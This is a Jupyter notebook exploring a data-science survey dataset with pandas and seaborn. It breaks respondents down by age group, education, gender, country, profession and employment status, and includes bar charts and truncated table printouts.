

In [0]:
X = final_data.iloc[:, np.r_[:,0:9,10:218]]  #independent columns
y = final_data.iloc[:, np.r_[:,9]]   #target column: Salary
#get correlations of each features in dataset
corrmat = final_data.corr()
top_corr_features = corrmat.index
plt.figure(figsize=(20,20))
#plot heat map
g=sb.heatmap(final_data[top_corr_features].corr(),annot=True,cmap="RdYlGn")

# Data visualization
Let's make some data visualizations and find out interesting points in each question!!!

In [0]:
multi_response.head()

,Time from Start to Finish (seconds),Q1,Q2,Q2_OTHER_TEXT,Q3,Q4,Q5,Q5_OTHER_TEXT,Q6,Q7,Q8,Q9_Part_1,Q9_Part_2,Q9_Part_3,Q9_Part_4,Q9_Part_5,Q9_Part_6,Q9_Part_7,Q9_Part_8,Q9_OTHER_TEXT,Q10,Q11,Q12_Part_1,Q12_Part_2,Q12_Part_3,Q12_Part_4,Q12_Part_5,Q12_Part_6,Q12_Part_7,Q12_Part_8,Q12_Part_9,Q12_Part_10,Q12_Part_11,Q12_Part_12,Q12_OTHER_TEXT,Q13_Part_1,Q13_Part_2,Q13_Part_3,Q13_Part_4,Q13_Part_5,...,Q31_OTHER_TEXT,Q32_Part_1,Q32_Part_2,Q32_Part_3,Q32_Part_4,Q32_Part_5,Q32_Part_6,Q32_Part_7,Q32_Part_8,Q32_Part_9,Q32_Part_10,Q32_Part_11,Q32_Part_12,Q32_OTHER_TEXT,Q33_Part_1,Q33_Part_2,Q33_Part_3,Q33_Part_4,Q33_Part_5,Q33_Part_6,Q33_Part_7,Q33_Part_8,Q33_Part_9,Q33_Part_10,Q33_Part_11,Q33_Part_12,Q33_OTHER_TEXT,Q34_Part_1,Q34_Part_2,Q34_Part_3,Q34_Part_4,Q34_Part_5,Q34_Part_6,Q34_Part_7,Q34_Part_8,Q34_Part_9,Q34_Part_10,Q34_Part_11,Q34_Part_12,Q34_OTHER_TEXT
0,510,22-24,Male,-1,France,Master’s degree,Software Engineer,-1,"1000-9,999 employees",0,I do not know,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,"30,000-39,999",$0 (USD),Twitter (data science influencers),NaN,NaN,"Kaggle (forums, blog, social media, etc)",NaN,NaN,NaN,"Blogs (Towards Data Science, Medium, Analytics...",Journal Publications (traditional publications...,NaN,NaN,NaN,-1,NaN,Coursera,NaN,DataCamp,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
1,423,40-44,Male,-1,India,Professional degree,Software Engineer,-1,"> 10,000 employees",20+,"We have well established ML methods (i.e., mod...",Analyze and understand data to influence produ...,Build and/or run the data infrastructure that ...,Build prototypes to explore applying machine l...,Build and/or run a machine learning service th...,NaN,NaN,NaN,NaN,-1,"5,000-7,499","> $100,000 ($USD)",NaN,NaN,NaN,"Kaggle (forums, blog, social media, etc)",NaN,"YouTube (Cloud AI Adventures, Siraj Raval, etc)","Podcasts (Chai Time Data Science, Linear Digre...","Blogs (Towards Data Science, Medium, Analytics...",NaN,NaN,NaN,NaN,-1,NaN,Coursera,NaN,DataCamp,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
2,83,55-59,Female,-1,Germany,Professional degree,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
3,391,40-44,Male,-1,Australia,Master’s degree,Other,0,"> 10,000 employees",20+,I do not know,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,"250,000-299,999","$10,000-$99,999",NaN,NaN,NaN,NaN,NaN,NaN,"Podcasts (Chai Time Data Science, Linear Digre...","Blogs (Towards Data Science, Medium, Analytics...",Journal Publications (traditional publications...,"Slack Communities (ods.ai, kagglenoobs, etc)",NaN,NaN,-1,NaN,Coursera,edX,DataCamp,NaN,...,-1,NaN,NaN,Azure Machine Learning Studio,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,None,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,Azure SQL Database,NaN,NaN,NaN,-1
4,392,22-24,Male,-1,India,Bachelor’s degree,Other,1,0-49 employees,0,No (we do not use ML methods),NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,"4,000-4,999",$0 (USD),NaN,NaN,NaN,NaN,NaN,"YouTube (Cloud AI Adventures, Siraj Raval, etc)",NaN,"Blogs (Towards Data Science, Medium, Analytics...",NaN,NaN,NaN,Other,0,NaN,NaN,NaN,NaN,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1


In [0]:
req = multi_response[1:]

In [0]:
req['Q7']

1          20+
2          NaN
3          20+
4            0
5          3-4
         ...  
19712      NaN
19713      3-4
19714      NaN
19715    15-19
19716      20+
Name: Q7, Length: 19716, dtype: object

In [0]:
####Checking the proportion of survey takers ----> large interest shown by 25-29 year old age group ----> find the distribtuion ohis population by country
age_group = req.groupby(['Q1'],as_index=False).count().reset_index().loc[:,'Q1':'Time from Start to Finish (seconds)']

In [0]:
age_group.sort_values('Time from Start to Finish (seconds)', inplace=True)

[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Age Group Participating In The Survey')]



In [0]:
import seaborn as sns
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q1", y="Time from Start to Finish (seconds)", data=age_group)
ax.set(xlabel='Age Group Participating In The Survey', ylabel='Number of people participating in the survey')

In [0]:
#Age group 25-29
age_25 = req[req.Q1 == "25-29"]

In [0]:
age_25_educ = age_25.groupby(['Q4'],as_index=False)[['Q1']].count()

In [0]:
age_25_educ

,Q4,Q1
0,Bachelor’s degree,1264
1,Doctoral degree,468
2,I prefer not to answer,64
3,Master’s degree,2316
4,No formal education past high school,44
5,Professional degree,109
6,Some college/university study without earning ...,107


In [0]:
age_25_educ.sort_values('Q1',inplace=True)

[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Professional Degree being pursued by age_group 25-29')]



In [0]:
#Preliminary visualization ---> most people in this age group are pursuing a Master's degree,followed by Bachelor's, Master's and phD
import seaborn as sns
import matplotlib.pyplot as plt
sns.set(style="whitegrid")
fig, ax = plt.subplots(1, 1, figsize=(35,15))
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q4", y="Q1", data=age_25_educ)
ax.set_title("Proportion of participants between 25-29 years pursuing different professions",fontsize=20)
ax.set(xlabel='Professional Degree being pursued by age_group 25-29', ylabel='Number of people participating in the survey')

In [0]:
#AGE GROUP DISRTRIBUTION BY GENDER --->
gender_age_25 = age_25.groupby(['Q2'],as_index=False)[['Q1']].count()

In [0]:
gender_age_25.sort_values('Q1',inplace=True)

In [0]:
gender_age_25.reset_index(drop=True)

,Q2,Q1
0,Prefer to self-describe,7
1,Prefer not to say,79
2,Female,810
3,Male,3562


[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Gender of participant in the age_group 25-29')]



In [0]:
#Preliminary visualization ---> most people in this age group are pursuing a Master's degree,followed by Bachelor's, Master's and phD
import seaborn as sns
sns.set(style="whitegrid")
fig, ax = plt.subplots(1, 1, figsize=(20,10))
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q2", y="Q1", data=gender_age_25)
ax.set_title("Gender Proportion of participants between 25-29 years ",fontsize=20)
ax.set(xlabel='Gender of participant in the age_group 25-29', ylabel='Number of people participating in the survey')

In [0]:
#between ages 25-29 by country
country_age_25 = age_25.groupby(['Q3'],as_index=False)[['Q1']].count()

In [0]:
country_age_25.reset_index(drop=True)

,Q3,Q1
0,Algeria,17
1,Argentina,26
2,Australia,40
3,Austria,14
4,Bangladesh,43
5,Belarus,18
6,Belgium,17
7,Brazil,181
8,Canada,87
9,Chile,23




In [0]:
# Prepare Data
country_age_25.sort_values('Q1',inplace=True)
#country.reset_index(inplace=True)

# Draw plot
import matplotlib.patches as patches

fig, ax = plt.subplots(figsize=(16,10), facecolor='white', dpi= 80)
ax.vlines(x=country_age_25.index, ymin=0, ymax=country_age_25.Q1, color='firebrick', alpha=0.7, linewidth=20)

# Annotate Text
for i, q1 in enumerate(country_age_25.Q1):
    ax.text(i, q1+0.5, round(q1, 1), horizontalalignment='center')


# Title, Label, Ticks and Ylim
ax.set_title('Bar Chart for Proportion of Survey Attempts by participants between 25-29 by Country distribution', fontdict={'size':22})
ax.set(ylabel='Number of 25-29 year old people participated in survey', ylim=(0, 1500))
ax.set(xlabel='Country participating in Survey')
plt.xticks(country_age_25.index, country_age_25.Q3.str.upper(), rotation=60, horizontalalignment='right', fontsize=12)

# Add patches to color the X axis labels
p1 = patches.Rectangle((.57, -0.005), width=.33, height=.13, alpha=.1, facecolor='green', transform=fig.transFigure)
p2 = patches.Rectangle((.124, -0.005), width=.446, height=.13, alpha=.1, facecolor='red', transform=fig.transFigure)
fig.add_artist(p1)
fig.add_artist(p2)
plt.show()

In [0]:
########25-29 year olds different professions
profession_age_25 = age_25.groupby(['Q5'],as_index=False)[['Q1']].count()

In [0]:
profession_age_25.sort_values('Q1',inplace=True)

In [0]:
profession_age_25.reset_index(drop=True)

,Q5,Q1
0,DBA/Database Engineer,30
1,Statistician,70
2,Product/Project Manager,78
3,Data Engineer,159
4,Business Analyst,195
5,Not employed,238
6,Research Scientist,294
7,Other,334
8,Data Analyst,483
9,Student,623


In [0]:
profession_age_25['Q5'] = profession_age_25[profession_age_25['Q5']!=0]

[Text(0, 0.5, 'Number of people participating in the survey'),
 Text(0.5, 0, 'Profession of participant in the age_group 25-29')]



In [0]:
#Preliminary visualization ---> most people in this age group are pursuing a Master's degree,followed by Bachelor's, Master's and phD
import seaborn as sns
sns.set(style="whitegrid")
fig, ax = plt.subplots(1, 1, figsize=(25,10))
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q5", y="Q1", data=profession_age_25)
ax.set_title("Work Profession of participants between 25-29 years ",fontsize=20)
ax.set(xlabel='Profession of participant in the age_group 25-29', ylabel='Number of people participating in the survey')

In [0]:
#LARGE NOT EMPLOYED CROWD INTERESTED....OTHER <----> proportion of unemployed people interested by country
#increase number of unemployed people in specific country <----> look at growth of machine learning in these countries
unemployed = req[req['Q5']=='Not employed']

In [0]:
unemployed.reset_index(drop=True)

,Time from Start to Finish (seconds),Q1,Q2,Q2_OTHER_TEXT,Q3,Q4,Q5,Q5_OTHER_TEXT,Q6,Q7,Q8,Q9_Part_1,Q9_Part_2,Q9_Part_3,Q9_Part_4,Q9_Part_5,Q9_Part_6,Q9_Part_7,Q9_Part_8,Q9_OTHER_TEXT,Q10,Q11,Q12_Part_1,Q12_Part_2,Q12_Part_3,Q12_Part_4,Q12_Part_5,Q12_Part_6,Q12_Part_7,Q12_Part_8,Q12_Part_9,Q12_Part_10,Q12_Part_11,Q12_Part_12,Q12_OTHER_TEXT,Q13_Part_1,Q13_Part_2,Q13_Part_3,Q13_Part_4,Q13_Part_5,...,Q31_OTHER_TEXT,Q32_Part_1,Q32_Part_2,Q32_Part_3,Q32_Part_4,Q32_Part_5,Q32_Part_6,Q32_Part_7,Q32_Part_8,Q32_Part_9,Q32_Part_10,Q32_Part_11,Q32_Part_12,Q32_OTHER_TEXT,Q33_Part_1,Q33_Part_2,Q33_Part_3,Q33_Part_4,Q33_Part_5,Q33_Part_6,Q33_Part_7,Q33_Part_8,Q33_Part_9,Q33_Part_10,Q33_Part_11,Q33_Part_12,Q33_OTHER_TEXT,Q34_Part_1,Q34_Part_2,Q34_Part_3,Q34_Part_4,Q34_Part_5,Q34_Part_6,Q34_Part_7,Q34_Part_8,Q34_Part_9,Q34_Part_10,Q34_Part_11,Q34_Part_12,Q34_OTHER_TEXT
0,334,22-24,Male,-1,India,Master’s degree,Not employed,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,None,NaN,-1,NaN,NaN,NaN,NaN,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
1,578,22-24,Male,-1,India,Master’s degree,Not employed,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,"Kaggle (forums, blog, social media, etc)",NaN,"YouTube (Cloud AI Adventures, Siraj Raval, etc)",NaN,NaN,NaN,NaN,NaN,Other,-1,NaN,NaN,edX,NaN,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
2,677,25-29,Female,-1,Morocco,Master’s degree,Not employed,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,"Course Forums (forums.fast.ai, etc)",NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,DataCamp,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
3,386,22-24,Male,-1,Greece,Master’s degree,Not employed,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,Twitter (data science influencers),NaN,NaN,NaN,"Course Forums (forums.fast.ai, etc)",NaN,NaN,"Blogs (Towards Data Science, Medium, Analytics...",NaN,NaN,NaN,NaN,-1,NaN,Coursera,NaN,NaN,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
4,349,25-29,Male,-1,Other,No formal education past high school,Not employed,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,"Course Forums (forums.fast.ai, etc)",NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,DataCamp,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...
937,263,25-29,Prefer not to say,-1,India,Bachelor’s degree,Not employed,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,"Kaggle (forums, blog, social media, etc)",NaN,NaN,NaN,"Blogs (Towards Data Science, Medium, Analytics...",NaN,NaN,NaN,NaN,-1,NaN,Coursera,edX,NaN,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
938,458,22-24,Male,-1,India,Master’s degree,Not employed,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,"YouTube (Cloud AI Adventures, Siraj Raval, etc)",NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,Na

In [0]:
#CHECK PROPORTION OF UNEMPLOYED PEOPLE BY EDUCATION...AND GENDER...AND COUNTRY...AND AGE GROUPS
unemployed_by_country = unemployed.groupby(['Q3','Q1']).count().reset_index().loc[:,'Q3':'Time from Start to Finish (seconds)']

In [0]:
unemployed_by_country.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 

In [0]:
unemployed_by_country

,Q3,Q1,Frequency
0,Algeria,25-29,2
1,Algeria,40-44,1
2,Argentina,40-44,1
3,Australia,25-29,1
4,Australia,30-34,2
...,...,...,...
234,United States of America,50-54,5
235,United States of America,55-59,15
236,United States of America,60-69,8
237,United States of America,70+,2


In [0]:
import pandas as pd

pivot = pd.pivot_table(unemployed_by_country, index='Q3', columns='Q1', values='Frequency')

